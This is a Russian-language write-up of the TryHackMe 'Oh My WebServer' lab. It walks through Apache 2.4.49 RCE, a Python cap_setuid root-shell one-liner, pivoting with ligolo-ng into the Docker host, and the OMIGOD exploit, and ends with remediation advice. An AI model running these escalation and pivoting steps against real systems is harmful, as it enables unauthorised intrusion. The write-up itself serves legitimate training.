# TryHackMe - Oh My WebServer

## 1. Reconnaissance (Разведка)

Первым шагом было сканирование портов с помощью **RustScan** для определения периметра атаки.

```bash
rustscan -a 10.64.130.44 -- -sV
```
**Результат:** Обнаружены открытые порты 22 (SSH) и 80 (HTTP).



На порту 80 запущен веб-сервер Apache 2.4.49. 


## 2. Initial Access (Первоначальный доступ)

Используя **Exploit-DB** был обнаружен готовый POC для этой Apache версии, позволяющий выполнить RCE на сервере.



Просмотрев POC был сформирован специальный запрос через **Burp Suite** выполняющий команду `id`:




**Результат**: Команда выполнилась от имени пользователя `daemon`.

Далее был отправлен Reverse Shell.




## 3. Privilege Escalation (Повышение привилегий)

Проверив систему на наличие Linux Capabilities, была обнаружена интересная настройка.

```bash
getcap -r / 2>/dev/null
```



Был использован Python для получения root-доступа и чтения user.txt:

```bash
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```



## 4. Pivoting

Проверив файл /etc/hosts, можно понять, что находимся внутри Docker-контейнера с IP `172.17.0.2`. Хост-система обычно находится по адресу `172.17.0.1`.



Для доступа к нему необходимо выполнить Pivoting, для этого был использован **ligolo-ng**.

Был отправлен и запущен агент, подключив его к своему прокси-серверу (-ignore-cert использовался из-за самоподписанного сертификата)*:



На своей машине был запущен прокси Ligolo и создан туннельный интерфейс:

```bash
sudo ./proxy -selfcert -v
# В консоли Ligolo:
session
interface_create --name utun10
tunnel_start --tun utun10
```



Далее была настроена маршрутизация, чтобы личная машина знала, как достичь внутренней подсети 172.17.0.0/16 через созданный интерфейс:

```bash
sudo ifconfig utun10 alias 10.66.0.1 255.255.0.0
sudo route add -net 172.17.0.0/16 -interface utun10
```



После настройки туннеля была просканирована хост-система `172.17.0.1`. 

```bash
rustscan -a 172.17.0.1
```




**Результат:** Был обнаружен порт 5986 (WinRM/OMI).

Поиск в Интернете показал, что этот сервис уязвим к CVE-2021-38647.




Скачав и использовав публичный эксплойт, удалось выполнить команды от `root`-пользователя и прочитать Root флаг.



## Remediation (Рекомендации по устранению)

Для предотвращения подобных атак необходимо:

1. **Обновление:** Регулярно обновлять веб-серверы (Apache) и системное ПО. Версия 2.4.49 содержала критическую уязвимость, исправленную в более новых версиях.
2. **Права доступа:** Не предоставлять избыточных привилегий (например, cap_setuid для Python), если это не требуется для работы приложения.
3. **Своевременное обновление:** Уязвимость OMIGOD (CVE-2021-38647) была исправлена Microsoft. Необходимо регулярно отслеживать и устанавливать обновления безопасности для всего установленного стороннего программного обеспечения, особенно того, которое слушает сетевые порты.